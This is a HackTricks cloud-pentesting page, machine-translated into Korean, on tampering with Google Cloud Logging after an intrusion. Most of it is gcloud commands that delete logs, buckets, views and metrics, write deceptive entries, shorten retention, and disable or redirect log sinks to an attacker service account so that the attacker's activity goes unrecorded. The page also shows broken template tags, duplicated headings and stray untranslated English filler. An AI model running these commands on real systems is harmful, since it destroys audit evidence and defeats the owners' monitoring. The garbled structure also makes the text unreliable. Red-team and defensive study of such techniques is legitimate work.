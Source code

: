 # GCP - 로깅 후 공격

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 해킹 기법을 공유하세요.

</details>

## 기본 정보

자세한 정보는 다음을 참조하세요:

{% content-ref url="../gcp-services/gcp-logging-enum.md" %}
[gcp-logging-enum.md](../gcp-services/gcp-logging-enum.md)
{% endcontent-ref %}

모니터링 방해를 위한 다른 방법은 다음을 확인하세요:

{% content-ref url="gcp-monitoring-post-exploitation.md" %}
[gcp-monitoring-post-exploitation.md](gcp-monitoring-post-exploitation.md)
{% endcontent-ref %}

### 기본 로깅

기본적으로 **`GetIamPolicy`** 로그는 생성되지 않으므로 권한 열거는 감지되지 않습니다.\
또한, 이러한 로그를 활성화하려면 모니터링하려는 각 서비스의 **관리자 읽기 로그를 활성화**해야 합니다. 예를 들어 `Projects`에서 `GetIamPolicy` 작업을 얻으려면 `Cloud Resources`에서 `관리자 읽기`를 활성화하고, `Pub/Sub` (예를 들어) 개체에서 `GetIamPolicy` 작업을 얻으려면 해당 개체에서 `관리자 읽기`를 활성화해야 합니다.\
더 많은 서비스 로깅을 활성화하기 위한 URL: [https://console.cloud.google.com/iam-admin/audit](https://console.cloud.google.com/iam-admin/audit)

기본적으로 이러한 로그는 활성화되지 않습니다. 로그와 비용의 노이즈를 증가시킬 수 있으므로 여러 GCP 조직에서는 이를 활성화하지 않을 수도 있습니다.

### 로그 읽기 - `logging.logEntries.list`

{% code overflow="wrap" %}
```bash
# Read logs
gcloud logging read "logName=projects/your-project-id/logs/log-id" --limit=10 --format=json

# Everything from a timestamp
gcloud logging read "timestamp >= \"2023-01-01T00:00:00Z\"" --limit=10 --format=json

# Use these options to indicate a different bucket or view to use: --bucket=_Required  --view=_Default
```
### `logging.logs.delete`

{% code overflow="wrap" %}
```bash
# Delete all entries from a log in the _Default log bucket - logging.logs.delete
gcloud logging logs delete <log-name>
```
### 로그 작성 - `logging.logEntries.create`

{% code overflow="wrap" %}
```bash
# Write a log entry to try to disrupt some system
gcloud logging write LOG_NAME "A deceptive log entry" --severity=ERROR
```
### `logging.buckets.update`

{% code overflow="wrap" %}
```bash
# Set retention period to 1 day (_Required has a fixed one of 400days)

gcloud logging buckets update bucketlog --location=<location> --description="New description" --retention-days=1
```
{% code %}

### `logging.buckets.delete`

### `logging.buckets.delete`를 사용하여 로깅 버킷 삭제

{% endcode %}
```bash
# Delete log bucket
gcloud logging buckets delete BUCKET_NAME --location=<location>
```
### `logging.links.delete`

{% code overflow="wrap" %}로그 링크 삭제{% endcode %}
```bash
# Delete link
gcloud logging links delete <link-id> --bucket <bucket> --location <location>
```
{% code %}

### `logging.views.delete`
```bash
# Delete a logging view to remove access to anyone using it
gcloud logging views delete <view-id> --bucket=<bucket> --location=global
```
### `logging.views.update`

{% code overflow="wrap" %}
```bash
# Update a logging view to hide data
gcloud logging views update <view-id> --log-filter="resource.type=gce_instance" --bucket=<bucket> --location=global --description="New description for the log view"
```
### `logging.logMetrics.update`

{% code overflow="wrap" %}
```bash
# Update log based metrics - logging.logMetrics.update
gcloud logging metrics update <metric-name> --description="Changed metric description" --log-filter="severity>CRITICAL" --project=PROJECT_ID
```
{% endcode %}

### `logging.logMetrics.delete`
```bash
# Delete log based metrics - logging.logMetrics.delete
gcloud logging metrics delete <metric-name>
```
### `logging.sinks.delete`

`logging.sinks.delete` is a command used to delete a sink in Google Cloud Platform (GCP) Logging. Sinks are used to export log entries from GCP Logging to other destinations, such as Google Cloud Storage or BigQuery.

To use `logging.sinks.delete`, you need to have the necessary permissions to manage sinks in GCP Logging. Once you have the required permissions, you can run the command with the following syntax:

```plaintext
gcloud logging sinks delete <SINK_NAME> [--project=<PROJECT_ID>]
```

Replace `<SINK_NAME>` with the name of the sink you want to delete. Optionally, you can specify the `--project` flag followed by the ID of the GCP project if you want to delete a sink from a specific project.

After executing the command, the specified sink will be permanently deleted from GCP Logging. Make sure to double-check the sink name before running the command, as the deletion cannot be undone.

Note: Deleting a sink does not delete the log entries that were exported to the sink's destination. If you want to delete the exported log entries as well, you need to delete them separately from the destination service.
```bash
# Delete sink - logging.sinks.delete
gcloud logging sinks delete <sink-name>
```
### `logging.sinks.update`

{% code overflow="wrap" %}

### `logging.sinks.update`

`logging.sinks.update` is a method in GCP that allows you to update the configuration of a logging sink. A logging sink is a destination for log entries in GCP, such as Cloud Storage, BigQuery, or Pub/Sub.

To use `logging.sinks.update`, you need to provide the project ID, the sink name, and the updated configuration. The configuration can include properties like the destination, filter, and output format.

Here is an example of how to use `logging.sinks.update`:

```bash
gcloud logging sinks update [SINK_NAME] --project=[PROJECT_ID] --destination=[DESTINATION] --filter=[FILTER] --output-version=[OUTPUT_VERSION]
```

Replace `[SINK_NAME]` with the name of the logging sink you want to update, `[PROJECT_ID]` with your GCP project ID, `[DESTINATION]` with the new destination for the log entries, `[FILTER]` with the updated filter, and `[OUTPUT_VERSION]` with the desired output format version.

Keep in mind that you need the necessary permissions to update logging sinks in GCP.
```bash
# Disable sink - logging.sinks.update
gcloud logging sinks update <sink-name> --disabled

# Createa filter to exclude attackers logs - logging.sinks.update
gcloud logging sinks update SINK_NAME --add-exclusion="name=exclude-info-logs,filter=severity<INFO"

# Change where the sink is storing the data - logging.sinks.update
gcloud logging sinks update <sink-name> new-destination

# Change the service account to one withuot permissions to write in the destination - logging.sinks.update
gcloud logging sinks update SINK_NAME --custom-writer-identity=attacker-service-account-email --project=PROJECT_ID

# Remove explusions to try to overload with logs - logging.sinks.update
gcloud logging sinks update SINK_NAME --clear-exclusions

# If the sink exports to BigQuery, an attacker might enable or disable the use of partitioned tables, potentially leading to inefficient querying and higher costs. - logging.sinks.update
gcloud logging sinks update SINK_NAME --use-partitioned-tables
gcloud logging sinks update SINK_NAME --no-use-partitioned-tables
```
{% endcode %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를** **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) **및** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 저장소에 PR을 제출하세요.**

</details>
